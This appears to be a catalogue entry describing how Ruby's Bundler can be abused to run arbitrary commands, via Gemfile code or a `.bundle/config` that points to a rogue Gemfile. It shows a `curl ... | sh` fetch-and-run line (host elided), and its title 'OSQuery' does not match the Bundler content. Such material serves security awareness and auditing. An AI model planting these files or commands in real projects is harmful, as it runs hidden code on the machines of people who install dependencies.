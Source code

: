 ```yaml
---
title: OSQuery
tags:
- cli
- eval-sh
- config-file
references: 
- https://bundler.io/v2.5/man/bundle-config.1.html
files: ['Gemfile', '*.gemspec*', '.bundle/config']
purl: pkg:gem/bundler
---
```


Bundler is Ruby's package manager. It uses a Ruby file called `Gemfile` to specify dependencies and versions. Any Ruby code can be added to it and will be executed when the `bundle` command is run.

```ruby
system("curl ... | sh")
```



If the Gemfile cannot be modified, Bundler can use a local configuration in `.bundle/config` that allows changing the path of the Gemfile. 

```yaml 
---
BUNDLE_GEMFILE: "NotGemfile"
BUNDLE_PATH: "vendor/bundle"
BUNDLE_DEPLOYMENT: "true"
```

The rogue Gemfile `NotGemfile` can then be used to execute commands:
```ruby

# Execute arbitrary commands
system("curl ... | sh")
 
# Optional: load the original Gemfile to avoid errors
eval_gemfile "Gemfile"
```

Note: Bundler configuration properties defined in `$HOME/.bundle/config` and in environment variables have precedence over the local configuration file.
